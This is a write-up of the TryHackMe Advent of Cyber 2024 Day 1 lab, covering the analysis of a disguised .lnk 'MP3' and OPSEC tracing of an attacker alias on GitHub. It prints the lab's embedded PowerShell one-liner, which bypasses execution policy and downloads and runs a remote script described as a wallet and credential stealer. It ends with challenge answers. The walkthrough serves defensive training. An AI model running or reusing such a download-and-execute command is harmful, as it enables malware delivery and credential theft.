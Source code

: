 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge

## Objectives 🎯

Day 1 begins the **Advent of Cyber 2024** with an exciting challenge to investigate a suspicious YouTube to MP3 converter website. The focus is on:
1. Analyzing downloaded files to uncover malicious behavior.
2. Investigating embedded metadata and suspicious scripts.
3. Tracing the attacker’s digital breadcrumbs to expose their OPSEC mistakes.

## Steps 🚀

### Step 1: Investigating the Website
1. **Access the website:**  
   Hosted at `10.10.200.221`, the site appeared to be a standard YouTube to MP3 converter.
2. **Download the files:**  
   I entered a YouTube link, which downloaded a `download.zip` file containing:
   - **`song.mp3`**: A legitimate audio file.
   - **`somg.mp3`**: A suspiciously named file.

### Step 2: File Analysis Using ExifTool
- **Analyzing `song.mp3`:**  
  Running `exiftool song.mp3` revealed nothing unusual—just a standard MP3 file.
- **Analyzing `somg.mp3`:**  
  Running `exiftool somg.mp3` revealed:
  - It was a Windows Shortcut file (`.lnk`), not an MP3.
  - Metadata contained an embedded PowerShell command:
    ```
    -ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
    ```
  This command bypasses PowerShell execution policies, downloads a malicious script, and executes it.

### Step 3: Opening the Embedded URL
- **Inspect the URL:**  
  The URL hosted a PowerShell script designed to steal:
  - Cryptocurrency wallet files.
  - Browser credentials.
- **C2 Server:**  
  Stolen data was sent to a Command and Control (C2) server controlled by the attacker.

### Step 4: Tracing the Attacker on GitHub
- **Signature in Script:**  
  The script contained the signature:
  ```
  "Created by the one and only M.M."
  ```
- **Search Results:**  
  Searching GitHub for `"Created by the one and only M.M."` led to:
  - A repository owned by **M.M.**
  - Comments tying their account to malicious activity.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures
1. **Reused Aliases:**  
   The attacker used the same alias ("M.M.") across platforms, making them easier to track.
2. **Identifiable Metadata:**  
   Including a signature in the script created a direct link to their identity.
3. **Public Interactions:**  
   GitHub comments connected their profile to the malicious activity.

### Tools and Techniques 🛠️
1. [ExifTool](https://exiftool.org/) – Extracted metadata to uncover the embedded PowerShell command.
2. **Browser Inspection:** Investigated URLs to find malicious scripts.
3. [GitHub Search](https://github.com/) – Traced the attacker through their digital breadcrumbs.

## Final Thoughts 🎁

Day 1 was an excellent introduction to metadata analysis and attacker investigation. Tracking down M.M. using GitHub highlighted how OPSEC failures can leave attackers exposed. This challenge provided a perfect mix of technical analysis and detective work to kick off the Advent of Cyber!

### Answers ✅
1. **What file was harmless?**  
   **Answer:** `song.mp3`
2. **What was the embedded PowerShell command used for?**  
   **Answer:** Bypassed execution policies, downloaded a malicious script, and executed it.
3. **What is the attacker’s alias?**  
   **Answer:** `M.M.`

## Table of Contents 📚

- [Main Page](README.md)
- **Day 1: OPSEC Challenge**
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE Exploitation](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Log Analysis](day7.md)
- [Day 8: Shellcodes](day8.md)
- [Day 9: Risk Assessment](day9.md)
- [Day 10: Phishing](day10.md)
- [Day 11: Wi-Fi Attacks](day11.md)
- [More Days to Come!](#)
```
